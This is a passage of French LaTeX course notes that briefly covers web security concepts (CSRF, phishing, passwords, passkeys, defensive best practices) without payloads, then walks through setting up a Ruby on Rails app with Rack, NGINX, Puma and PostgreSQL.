    (\href{https://www.owasp.org/index.php/DOM_Based_XSS}{Exemple})
  \end{itemize}
\end{itemize}

\hypertarget{cross-site-request-forgery-csrf---sea-surf}{%
\section{Cross Site Request Forgery (CSRF - Sea
Surf)}\label{cross-site-request-forgery-csrf---sea-surf}}

\begin{itemize}
\tightlist
\item
  \textbf{Principe} :

  \begin{itemize}
  \tightlist
  \item
    Faire réaliser à quelqu'un une action à son insu, avec ses propres
    infos d'authentification (credentials)
  \end{itemize}
\item
  Envoi par mail ou post forum de liens ou images
\item
  Les URL correspondent à actions (vote, suppression, \ldots)
\end{itemize}

\href{https://www.owasp.org/index.php/CSRF}{Exemple} (SOP, CORS)

\hypertarget{phishing}{%
\section{Phishing}\label{phishing}}

\begin{itemize}
\tightlist
\item
  Site sosie d'un site officiel :

  \begin{enumerate}
  \def\labelenumi{\arabic{enumi}.}
  \tightlist
  \item
    L'utilisateur saisit ses données\ldots{}
  \item
    \ldots{} l'attaquant les récupère\ldots{}
  \item
    \ldots{} et les utilise sur le site officiel
  \end{enumerate}
\item
  Difficile à contrer pour le développeur
\item
  L'utilisateur doit être prudent
\item
  Bien lire les URLS et le GUI du navigateur pas toujours suffisant
\item
  Ne pas utiliser de lien dont on n'est pas sur de la source
  (\href{https://www.xudongz.com/blog/2017/idn-phishing/}{Homograph
  Attack},
  \href{https://github.com/codebox/homoglyph/blob/master/raw_data/char_codes.txt}{Homoglyphes},
  \href{https://onlineunicodetools.com/spoof-unicode-text}{Unicode
  Spoofing})
\end{itemize}

\hypertarget{risques-non-liuxe9s-uxe0-lapplication}{%
\section{Risques non liés à
l'application}\label{risques-non-liuxe9s-uxe0-lapplication}}

\begin{itemize}
\tightlist
\item
  IoT : souvent mal sécurisé (\href{https://www.shodan.io/}{shodan.io})
\item
  DoS
\item
  Spoofing (IP, DNS, ARP)
\item
  Buffer Overflows (surtout en C)
\item
  Trojans, backdoors
\item
  Usurpation de mots de passe : dictionnaire, force brute
\item
  \textbf{SOCIAL ENGINEERING !!!}
\end{itemize}

\hypertarget{authentification}{%
\section{Authentification}\label{authentification}}

\begin{itemize}
\tightlist
\item
  \textbf{Identification} : annoncer qui on est
\item
  \textbf{Authentification} : prouver qu'on est la personne qu'on
  prétend être :

  \begin{enumerate}
  \def\labelenumi{\arabic{enumi}.}
  \tightlist
  \item
    Avec quelque chose que l'on \textbf{sait} (PIN, mot de passe)
  \item
    Avec quelque chose que l'on \textbf{possède} (téléphone, token,
    \ldots)
  \item
    Avec quelque chose que l'on \textbf{est} (biométrie)
  \end{enumerate}
\item
  La sécurité augmente si on combine ces facteurs
\item
  Important de prendre en compte l'utilisabilité
\end{itemize}

\hypertarget{top-500-passwords-cloud}{%
\section{Top 500 passwords cloud}\label{top-500-passwords-cloud}}

\begin{figure}
\centering

\includegraphics{src/img/passwordscloud.png}
\caption{top 500 passwords cloud}
\end{figure}

\hypertarget{mots-de-passe}{%
\section{Mots de passe}\label{mots-de-passe}}

\begin{itemize}
\tightlist
\item
  30\% of users have a password from the top 10'000
  (\href{https://xato.net/10-000-top-passwords-6d6380716fe0\#.q5gcg2vme}{source})
\item
  Our passwords habits
  \href{http://visual.ly/our-password-habits-revealed}{revealed}
\item
  xkcd's \href{http://xkcd.com/936/}{password strength}
\item
  2017 :
  \href{https://nakedsecurity.sophos.com/2016/08/18/nists-new-password-rules-what-you-need-to-know/}{NIST
  800-63-3} suivi par la
  \href{https://www.ncsc.gov.uk/guidance/password-guidance-simplifying-your-approach}{NCSC}

  \begin{itemize}
  \tightlist
  \item
    Mots de passe longs plutôt qu'avec des caractères spéciaux
  \item
    Ne forcer le changement qu'en cas de nécessité
  \item
    Autoriser et accompagner l'utilisation de password managers
  \item
    Utiliser la 2FA
  \end{itemize}
\item
  Plusieurs tentatives pour s'en affranchir :

  \begin{itemize}
  \tightlist
  \item
    \href{https://www.microsoft.com/security/blog/2021/09/15/the-passwordless-future-is-here-for-your-microsoft-account/}{Microsoft},
    \href{https://hacks.mozilla.org/2014/10/passwordless-authentication-secure-simple-and-fast-to-deploy/}{passwordless}
    authentication
  \item
    2022 : Passkeys : JS API
    \href{https://en.wikipedia.org/wiki/WebAuthn}{WebAuthN} +
    CTAP/\href{https://u2f-key.tech/fr/}{U2F}
  \end{itemize}
\end{itemize}

\hypertarget{passkeys35}{%
\section{\texorpdfstring{\href{https://medium.com/webauthnworks/introduction-to-webauthn-api-5fd1fb46c285}{Passkeys}}{Passkeys}}\label{passkeys35}}

\begin{itemize}
\tightlist
\item
  Paire de clés asymétriques au lieu d'un mot de passe
\item
  Initiative de l'alliance
  \href{https://fidoalliance.org/members/}{FIDO}
\item
  Fin 2022 : intégrée à Android, iOS, win11 et MacOS
\item
  Résolution de challenges : pas d'info sensible sur le réseau
\item
  3 acteurs :

  \begin{itemize}
  \tightlist
  \item
    User Agent : Humain / Navigateur
  \item
    Relying Party : Serveur (service auquel on veut s'authentifier)
  \item
    Authenticator : Clef USB / Smartphone / OS + biométrie
  \end{itemize}
\item
  Communication :

  \begin{itemize}
  \tightlist
  \item
    User Agent \textless=\textgreater{} Authenticator : CTAP / U2F
  \item
    User Agent \textless=\textgreater{} Relying Party : API JS
    \href{https://webauthn.guide/}{WebAuthn}
  \end{itemize}
\end{itemize}

\hypertarget{passkeys-acteurs31}{%
\section{\texorpdfstring{Passkeys :
\href{https://auth0.com/blog/introduction-to-web-authentication/}{Acteurs}}{Passkeys : Acteurs}}\label{passkeys-acteurs31}}

\begin{figure}
\centering

\includegraphics{src/img/1-Web-Authentication-Entities.png}
\caption{Architecture}
\end{figure}

\hypertarget{passkeys-enregistrement32}{%
\section{\texorpdfstring{Passkeys :
\href{https://www.freecodecamp.org/news/intro-to-webauthn/}{Enregistrement}}{Passkeys : Enregistrement}}\label{passkeys-enregistrement32}}

\begin{figure}
\centering

\includegraphics{src/img/Registration.png}
\caption{Reg}
\end{figure}

\hypertarget{passkeys-authentification32}{%
\section{\texorpdfstring{Passkeys :
\href{https://www.freecodecamp.org/news/intro-to-webauthn/}{Authentification}}{Passkeys : Authentification}}\label{passkeys-authentification32}}

\begin{figure}
\centering

\includegraphics{src/img/Login.png}
\caption{Auth}
\end{figure}

\hypertarget{collecte-dinformation}{%
\section{Collecte d'information}\label{collecte-dinformation}}

\begin{itemize}
\tightlist
\item
  Toute information est bonne pour l'attaquant

  \begin{itemize}
  \tightlist
  \item
    Messages d'erreur
  \item
    Configuration OS serveur
  \item
    Configuration serveurs (http, sql, php, \ldots)
  \item
    Identifiants et commentaires dans sources -au cas où-
  \item
    SOCIAL ENGINEERING !
  \end{itemize}
\item
  Le développeur doit laisser filter un minimum d'info !
\item
  Utilisée aussi par les ``white hats'' (ethical hackers) :
  \href{https://hackertarget.com/cowrie-honeypot-analysis-24hrs/}{Honeypots}
\end{itemize}

\hypertarget{bonnes-pratiques}{%
\section{Bonnes pratiques}\label{bonnes-pratiques}}

\begin{itemize}
\tightlist
\item
  Configuration stricte du serveur
\item
  Valider toutes les entrées (formulaires, requêtes HTTP)
\item
  Filtrage/encodage de toutes les entrées en entités HTML
\item
  Ne jamais afficher directement une saisie de formulaire

  \begin{itemize}
  \tightlist
  \item
    Ni aucune donnée transmise par HTTP avant de l'avoir filtrée !
  \end{itemize}
\item
  Tester ses formulaires avec des expressions à risques
\item
  Contrôler le maximum de paramètres (même si redondant) :

  \begin{itemize}
  \tightlist
  \item
    Session, IP, user agent, proxy, \ldots{}
  \end{itemize}
\item
  Utiliser un framework

  \begin{itemize}
  \tightlist
  \item
    ces bonnes pratiques sont déjà implémentées
  \end{itemize}
\item
  Suites et logiciels de test
\end{itemize}

\hypertarget{ruxe9fuxe9rences}{%
\section{Références}\label{ruxe9fuxe9rences}}

\begin{itemize}
\tightlist
\item
  Référence

  \begin{itemize}
  \tightlist
  \item
    \href{https://www.owasp.org/index.php/Main_Page}{OWASP},
    \href{https://www.youtube.com/watch?v=pHI2zitLph8}{webinar fr 2016}
  \item
    WebAuthn : \href{https://www.w3.org/TR/webauthn/}{w3c},
    \href{https://developer.mozilla.org/en-US/docs/Web/API/Web_Authentication_API}{MDN}
  \end{itemize}
\item
  Exemples, explications

  \begin{itemize}
  \tightlist
  \item
    \href{http://www.journaldunet.com/developpeur/tutoriel/php/031030php_nexen-xss1.shtml}{Présentation
    XSS et CSRF} en français
  \item
    \href{http://www.apprendre-php.com/tutoriels/tutoriel-39-introduction-aux-cross-site-request-forgeries-ou-sea-surf.html}{Protection
    CSRF} en français
  \end{itemize}
\item
  Utilitaires, tutos, exercices

  \begin{itemize}
  \tightlist
  \item
    \href{https://www.owasp.org/index.php/Webgoat}{Web Goat}
  \item
    \href{http://www.insecurelabs.org/task}{Insecure Labs}
  \item
    \href{http://google-gruyere.appspot.com/}{Google-Gruyere}
  \end{itemize}
\end{itemize}

\hypertarget{sources}{%
\section{Sources}\label{sources}}


\chapter{ Ruby on Rails}

\includegraphics{src/img/imagine.png}

\hypertarget{connexion}{%
\section{Connexion}\label{connexion}}

Nom de domaine et port SSH sur: \url{http://srvz-webapp2.he-arc.ch/}.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# Exemple}

\NormalTok{$ }\FunctionTok{ssh}\NormalTok{ {-}p 2030 yoan@srvz{-}webapp2.he{-}arc.ch}
\ExtensionTok{yoan@yoan}\NormalTok{$ more \textasciitilde{}/README.md}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{mise-uxe0-jour-de-rails}{%
\subsection{Mise à jour de Rails}\label{mise-uxe0-jour-de-rails}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{yoan@yoan}\NormalTok{$ rails {-}v}
\ExtensionTok{Rails}\NormalTok{ 5.0.0.1}
\ExtensionTok{yoan@yoan}\NormalTok{$ gem update}
\ExtensionTok{Updating}\NormalTok{ installed gems}
\ExtensionTok{...}
\ExtensionTok{yoan@yoan}\NormalTok{$ rails {-}v}
\ExtensionTok{Rails}\NormalTok{ 5.0.1}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{une-application-ruby}{%
\subsection{Une application Ruby}\label{une-application-ruby}}

Comme pour Laravel, c'est une bonne pratique d'avoir un répertoire pour
le contenu publiable sur Internet.

\begin{english}

\begin{verbatim}
$ cd /var/www/app
$ ls
config.ru
Gemfile
Gemfile.lock
public/nginx-puma.png

$ more config.ru
\end{verbatim}

\end{english}

\hypertarget{rack-101}{%
\section{Rack 101}\label{rack-101}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{run {-}\textgreater{}(env) }\KeywordTok{do}
\NormalTok{  [}
    \DecValTok{200}\NormalTok{,}
\NormalTok{    \{}\StringTok{"Content{-}Type"}\NormalTok{ =\textgreater{} }\StringTok{"text/html; charset=utf{-}8"}\NormalTok{\},}
\NormalTok{    [}
      \StringTok{"\textless{}!DOCTYPE html\textgreater{}"}\NormalTok{,}
      \StringTok{"\textless{}meta charset=utf{-}8\textgreater{}"}\NormalTok{,}
      \StringTok{"\textless{}title\textgreater{}Hello!\textless{}/title\textgreater{}"}\NormalTok{,}
      \StringTok{"\textless{}h1\textgreater{}Hello\textless{}/h1\textgreater{}"}\NormalTok{,}
      \StringTok{"\textless{}p\textgreater{}:{-})"}
\NormalTok{    ]}
\NormalTok{  ]}
\KeywordTok{end}
\end{Highlighting}
\end{Shaded}

\end{english}

Une fonction, Proc ou lambda qui :

\begin{itemize}
\tightlist
\item
  reçoit un tableau associatif de son environement;
\item
  retourne un triplet de réponse HTTP.
\end{itemize}

Réponse HTTP:

\begin{itemize}
\tightlist
\item
  le code HTTP;
\item
  un tableau associatif des entêtes HTTP;
\item
  un itérateur sur le corps du document.
\end{itemize}

\hypertarget{gemfile}{%
\subsection{\texorpdfstring{\emph{Gemfile}}{Gemfile}}\label{gemfile}}

Un paquet Ruby se nomme une \emph{gemme}.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# Gemfile}
\NormalTok{source }\StringTok{"https://rubygems.org"}

\NormalTok{gem }\StringTok{"puma"}\NormalTok{, }\StringTok{"\textasciitilde{}\textgreater{} 3.6.2"}
\NormalTok{gem }\StringTok{"rack"}
\end{Highlighting}
\end{Shaded}

\end{english}

Comme le composer.json pour PHP.

\hypertarget{nginx}{%
\subsection{NGINX}\label{nginx}}

\begin{english}

\begin{verbatim}
root /var/www/app/public;

location / {
    try_files $uri/index.html $uri @rack;
}

location @rack {
    proxy_pass http://puma;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_set_header Host $http_host;
    proxy_redirect off;
}

upstream puma {
    server unix:/tmp/puma.sock fail_timeout=0;
}
\end{verbatim}

\end{english}

Le serveur HTTP qui sert les fichiers statiques (public) et redirige le
reste vers le serveur d'application Ruby (puma).

\hypertarget{puma}{%
\subsection{Puma}\label{puma}}

Le serveur d'application pour Ruby.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\#!/usr/bin/env puma}

\NormalTok{environment }\StringTok{"production"}

\NormalTok{directory }\StringTok{"/var/www/app"}
\NormalTok{bind }\StringTok{"unix:///tmp/puma.sock"}

\CommentTok{\# À ajouter.}
\NormalTok{plugin }\StringTok{:tmp\_restart}
\end{Highlighting}
\end{Shaded}

\end{english}

En PHP, nous utilisions PHP-FPM. Qu'utilisez-vous avec JEE?

\hypertarget{serveur}{%
\subsection{Serveur}\label{serveur}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\FunctionTok{ls}\NormalTok{ /etc/services}
\ExtensionTok{cron}\NormalTok{ nginx puma sshd syslog}

\NormalTok{$ }\FunctionTok{pstree}
\ExtensionTok{tini}\NormalTok{───runsvdir─┬─runsv───cron}
\NormalTok{                ├─}\ExtensionTok{runsv}\NormalTok{───nginx───4*[nginx]}
\NormalTok{                ├─}\ExtensionTok{runsv}\NormalTok{───syslog{-}ng}
\NormalTok{                └─}\ExtensionTok{runsv}\NormalTok{───bundle─┬─}\DataTypeTok{\{reactor.rb:151\}}
\NormalTok{                                 ├─}\DataTypeTok{\{ruby{-}timer{-}thr\}}
\NormalTok{                                 ├─}\DataTypeTok{\{server.rb:301\}}
\NormalTok{                                 └─}\ExtensionTok{6*}\NormalTok{[}\DataTypeTok{\{thread\_pool.rb*\}}\NormalTok{]}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{exercice-1}{%
\section{Exercice 1}\label{exercice-1}}

Modifiez l'environnement \emph{puma} en
\textenglish{\texttt{development}}.

\textenglish{\texttt{http://{[}\ PRENOM.NOM\ \textbar{}\ GITHUB\ {]}.srvz-webapp2.he-arc.ch/}}
doit afficher:

\begin{english}

\begin{verbatim}
RACK_ENV
    development
\end{verbatim}

\end{english}

\hypertarget{premiuxe8re-application}{%
\section{Première application}\label{premiuxe8re-application}}

Archivez \textenglish{\texttt{app}}.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\BuiltInTok{cd}\NormalTok{ /var/www}
\NormalTok{$ }\FunctionTok{mv}\NormalTok{ app demoapp}
\end{Highlighting}
\end{Shaded}

\end{english}

Créez une nouvelle application Rails.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ new app {-}{-}database=postgresql}
\NormalTok{$ }\BuiltInTok{cd}\NormalTok{ app}
\end{Highlighting}
\end{Shaded}

\end{english}

Si vous changez le nom, vous devez modifier les configurations des
serveurs.

\hypertarget{plein-de-fichiers}{%
\subsection{Plein de fichiers}\label{plein-de-fichiers}}

\begin{english}

\begin{verbatim}
app/                # votre code
bin/
config/             # fichiers de config
config.ru           # point d'entrée, « index.php »
db/                 # migrations et seeds
Gemfile             # comme le composer.json
Gemfile.lock
lib/
log/
public/             # fichiers publics
Rakefile
README.md
test/               # tests unitaires, fonctionnels, etc.
tmp/
vendor/
\end{verbatim}

\end{english}

\hypertarget{exercice-2}{%
\section{Exercice 2}\label{exercice-2}}

Que peut-on faire à l'aide de la commande \textenglish{\texttt{rails}}?

Et de la commande \textenglish{\texttt{bundle}}?

Avant Rails 5, rails et rake avaient des rôles séparés, condensés dans
rails.

\hypertarget{premier-duxe9marrage}{%
\subsection{Premier démarrage}\label{premier-duxe9marrage}}

\begin{english}

\begin{verbatim}
$ sudo sv restart puma
\end{verbatim}

\end{english}

Kaboom!

\hypertarget{connexion-1}{%
\subsection{Connexion}\label{connexion-1}}

Utilisez \href{https://www.pgadmin.org/}{pgAdmin} pour vous connecter à
votre base de données.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\BuiltInTok{echo} \VariableTok{$GROUPNAME} \VariableTok{$PASSWORD}
\end{Highlighting}
\end{Shaded}

\end{english}

Ou pour les durs à cuire :

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\ExtensionTok{psql}\NormalTok{ {-}h }\VariableTok{$POSTGRES\_HOST}\NormalTok{ {-}U }\VariableTok{$GROUPNAME}
\OperatorTok{\textgreater{}}\NormalTok{ \textbackslash{}}\ExtensionTok{l}
\OperatorTok{\textgreater{}}\NormalTok{ \textbackslash{}}\ExtensionTok{dn}
\OperatorTok{\textgreater{}}\NormalTok{ \textbackslash{}}\ExtensionTok{dt}
\OperatorTok{\textgreater{}}\NormalTok{ \textbackslash{}}\ExtensionTok{q}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{configuration}{%
\subsection{Configuration}\label{configuration}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{default}\KeywordTok{:}\AttributeTok{ }\OtherTok{\&default}
\AttributeTok{  }\FunctionTok{adapter}\KeywordTok{:}\AttributeTok{ postgresql}
\AttributeTok{  }\FunctionTok{encoding}\KeywordTok{:}\AttributeTok{ unicode}
\FunctionTok{  pool}\KeywordTok{: }\AttributeTok{\textless{}\%= ENV.fetch(}\StringTok{"RAILS\_MAX\_THREADS"}\AttributeTok{) }\KeywordTok{\{}\AttributeTok{ 5 }\KeywordTok{\}}\AttributeTok{ \%}\CharTok{\textgreater{}}
\FunctionTok{  host}\KeywordTok{: }\AttributeTok{\textless{}\%= ENV.fetch(}\StringTok{"POSTGRES\_HOST"}\AttributeTok{) }\KeywordTok{\{}\AttributeTok{ }\StringTok{"localhost"}\AttributeTok{ }\KeywordTok{\}}\AttributeTok{ \%}\CharTok{\textgreater{}}
\FunctionTok{  port}\KeywordTok{: }\AttributeTok{\textless{}\%= ENV.fetch(}\StringTok{"POSTGRES\_PORT"}\AttributeTok{) }\KeywordTok{\{}\AttributeTok{ 5432 }\KeywordTok{\}}\AttributeTok{ \%}\CharTok{\textgreater{}}
\FunctionTok{  database}\KeywordTok{: }\AttributeTok{\textless{}\%= ENV}\KeywordTok{[}\StringTok{"GROUPNAME"}\KeywordTok{]}\AttributeTok{ \%}\CharTok{\textgreater{}}
\FunctionTok{  username}\KeywordTok{: }\AttributeTok{\textless{}\%= ENV}\KeywordTok{[}\StringTok{"GROUPNAME"}\KeywordTok{]}\AttributeTok{ \%}\CharTok{\textgreater{}}
\FunctionTok{  password}\KeywordTok{: }\AttributeTok{\textless{}\%= ENV}\KeywordTok{[}\StringTok{"PASSWORD"}\KeywordTok{]}\AttributeTok{ \%}\CharTok{\textgreater{}}

\FunctionTok{development}\KeywordTok{:}
\AttributeTok{  }\FunctionTok{\textless{}\textless{}}\KeywordTok{:}\AttributeTok{ }\OtherTok{*default}

\FunctionTok{test}\KeywordTok{:}
\AttributeTok{  }\FunctionTok{\textless{}\textless{}}\KeywordTok{:}\AttributeTok{ }\OtherTok{*default}
\AttributeTok{  }\FunctionTok{schema\_search\_path}\KeywordTok{:}\AttributeTok{ test}

\FunctionTok{production}\KeywordTok{:}
\AttributeTok{  }\FunctionTok{\textless{}\textless{}}\KeywordTok{:}\AttributeTok{ }\OtherTok{*default}
\AttributeTok{  }\FunctionTok{schema\_search\_path}\KeywordTok{:}\AttributeTok{ production}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{application-de-duxe9mo}{%
\section{Application de démo}\label{application-de-duxe9mo}}

Téléchargez l'application pré-configurée pour vous.

\begin{english}

\begin{Shaded}
